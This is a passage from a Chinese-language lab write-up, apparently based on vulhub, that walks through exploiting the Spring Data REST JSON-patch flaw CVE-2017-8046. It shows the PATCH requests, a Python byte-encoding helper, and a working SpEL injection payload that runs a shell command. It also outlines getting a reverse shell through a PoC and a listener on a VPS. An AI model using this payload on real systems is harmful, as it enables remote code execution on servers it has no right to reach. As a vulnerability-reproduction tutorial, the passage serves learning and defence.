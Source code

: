 访问 / persons 目录

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0qk6AsQLh1ia0kKUHGHUgP4vewM6vN2KzHAvHngibUmT82s45eCDGhI3A/640?wx_fmt=png)

post 添加一个用户

```
{"firstName":"test","lastName":"test"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0fMphLxYkXnlVGnXCwLjUDhgAAaQ1N2lohPGRTwWrXZs4t2BCTBZvHw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0JFlS7m08BQ1leNWQFadKR0LUiaz5GpvP4mr29w3EwSr56pBytI1XDIw/640?wx_fmt=png)

可以看到 id 为 1，在 persons 目录里面，使用 PATCH 方法尝试修改`lastName` 在 http 头里面添加

```
Content-Type': 'application/json-patch+json
```

PATCH 修改内容为

```
[{"op":"replace","path":"/lastName","value":"hacker"}]
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0xQORvWBFzHMbGdzibnFM0n0XPSFib1trIM5C4O01eh6ibXEYqialgmSUBg/640?wx_fmt=png)

可以看到修改成功

如果要执行命令，需要转化为二进制执行, 例如使用如下 python 代码：

```
cmd = input("please input your command：")cmd = bytes(cmd, encoding='utf-8')bytecode = ','.join(str(i) for i in list(cmd))please input your command：touch /test116,111,117,99,104,32,47,116,101,115,116
```

然后使用 exp：

```
[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,101,115,116}))/lastname", "value": "vulhub" }]
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0tzFSyASqZFgjTI8xgtKfiaorZaXdxxmI4QtJx9y16JG9sdP3eJp6Iew/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0q10piauwg3apglBgeOVNibDicbdibdCCzsIr6Bnkaibl2CgQnBxib5GiccN5A/640?wx_fmt=png)

执行成功

反弹 shell 查看 python 代码，同样的操作，只是需要进行一个 base64 bash 编码

#### 2.2 CVE-2017-8046 编写 poc

这里输入获取到的 url 地址

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0NHdyfyBU3TAq5zdx42v8hOPK82hhs4ibR3GicicayLyj6dia4R3NZxibiceA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0uDZXFAenSzdSgx2wbRUxvF7nrOemfQpyjTr3eoCZwnaEqPjIwSyVCw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl02718nRTaoJ60D0eowRqRiarkLiclW3cVFtlKx5ib4EJTOe6sSQ4NGMOiaA/640?wx_fmt=png)

在 vps 监听

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl01fCevaPVxiagyjd0RxGpT9DMQu929bWSGDhDl8viaFVkW6FJE0ibjTXow/640?wx_fmt=png)

在 exp 输入 shell
